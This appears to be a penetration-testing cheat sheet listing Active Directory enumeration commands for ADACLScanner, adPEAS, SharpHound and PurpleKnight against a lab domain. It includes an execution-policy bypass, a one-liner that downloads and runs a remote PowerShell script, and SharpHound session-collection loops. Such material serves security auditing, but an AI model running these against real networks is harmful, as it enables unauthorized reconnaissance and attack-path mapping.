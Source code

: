 **ADACLScanner (unstable)**
```powershell
#1. Spawn a Powershell as a user in that domain using runas and its /netonly flag and enter the password.
C:\> runas /netonly /user:UNSAFE\ruser powershell.exe

#2. Set Execution policy as Bypass
 Set-ExecutionPolicy Bypass -Scope CurrentUser

#3. Generate a report from the command line:
 .\ADACLScan.ps1 -Base "DC=unsafe,DC=local" -Scope subtree -Server dc.unsafe.local -Port 389 -Output HTML -Show
 .\ADACLScan.ps1 -Base "DC=unsafe,DC=local" -Scope subtree -Server dc.unsafe.local -Port 389 -EffectiveRightsPrincipal ruser -Output HTML -Show
```
<br/>

**adPEAS**
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

#Bloodhound module is excluded
Invoke-adPEAS -Domain unsafe.local -Username 'unsafe\luser' -Password 'S3cP@ss' -Module Domain,CA,Creds,Delegation,Accounts,Computer -Vulns
```
<br/>

**SharpHound**
```powershell
#Method 1
#1. Spawn a CMD shell as a user in that domain using runas and its /netonly flag and enter the password.
C:\> runas /netonly /user:UNSAFE\ruser cmd.exe

#2. Run SharpHound, using the -d flag to specify the AD domain you want to collect information from. You can also use any other flags you wish.
C:\> SharpHound.exe -d unsafe.local -c All --outputdirectory C:\Users\desktop2\Desktop

#3. For session loop collection method (default 2 hours)
C:\> SharpHound.exe -d unsafe.local --CollectionMethods Session --Loop
C:\> SharpHound.exe -d unsafe.local --CollectionMethods Session --Loop --Loopduration 01:00:00

#Method 2
C:\> SharpHound.exe -d unsafe.local -c All --ldapusername ruser --ldappassword Password
C:\> SharpHound.exe -d unsafe.local --CollectionMethods Session --Loop --ldapusername ruser --ldappassword Password
C:\> SharpHound.exe -d unsafe.local --CollectionMethods LoggedOn --ldapusername ruser --ldappassword Password
```
<br/>

**PurpleKnight**
```powershell
#1. Download PurpleKnight and unzip the archive
#2. Spawn a CMD shell as a user in that domain using runas and its /netonly flag and enter the password.
C:\> runas /netonly /user:UNSAFE\ruser cmd.exe

#3. Set Execution policy as Bypass
C:\> powershell -c "Set-ExecutionPolicy Bypass -Scope CurrentUser"

#4. Run the executable from CMD
C:\> .\PurpleKnight.exe

```